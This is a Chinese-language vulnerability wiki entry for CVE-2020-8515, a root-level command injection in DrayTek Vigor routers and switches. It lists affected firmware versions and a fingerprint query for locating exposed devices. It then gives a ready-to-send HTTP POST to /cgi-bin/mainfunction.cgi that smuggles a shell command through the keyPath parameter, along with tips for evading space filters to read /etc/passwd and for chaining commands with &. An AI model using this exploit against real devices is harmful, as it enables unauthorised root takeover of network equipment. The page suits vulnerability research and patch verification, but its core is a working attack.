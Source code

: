 # DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

<a-checkbox checked>Vigor2960 < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor300B < v1.5.1</a-checkbox></br>

<a-checkbox checked>Vigor3900 < v1.5.1</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2121 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P1280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20G2280 <= v2.3.2</a-checkbox></br>

<a-checkbox checked>VigorSwitch20P2280 <= v2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Vigor 2960"</a-checkbox></br>

## 漏洞复现

登录页面抓包

![](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7231530.png)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1

Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121856526.png)

其中出现注入点的参数为 `keyPath`

出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd

可以使用 & 执行额外一条命令 (URL编码为 %26)

![](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121906002.png)

